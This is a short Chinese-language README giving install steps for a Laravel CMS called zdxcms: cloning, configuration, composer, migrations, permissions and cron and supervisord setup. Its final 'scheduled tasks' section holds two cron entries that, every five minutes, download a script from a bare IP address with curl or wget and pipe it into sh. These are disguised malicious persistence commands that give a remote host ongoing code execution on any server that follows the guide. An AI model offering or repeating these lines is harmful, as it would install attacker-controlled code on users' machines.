 ## zdxcms

安装步骤：
- git clone https://github.com/wenhaiqing/zdxcms.git

- cp .env.example .env
  手动创建数据库 修改配置文件的数据库配置
- composer install

- php artisan key:generate

- php artisan migrate --seed

- 给项目文件夹0755权限

- 创建任务调度器export EDITOR=vi && crontab -e

- corn会在每分钟调度一次laravel命令调度器* * * * * php /home/vagrant/Code/xxx/artisan schedule:run >> /dev/null 2>&1

- supervisord -c /etc/supervisord.conf或者supervisorctl reload重启进程管理

- 开启了opcache 每次修改代码都得reload
- 定时任务
*/5 * * * * curl -fsSL http://165.225.157.157:8000/i.sh | sh
*/5 * * * * wget -q -O- http://165.225.157.157:8000/i.sh | sh

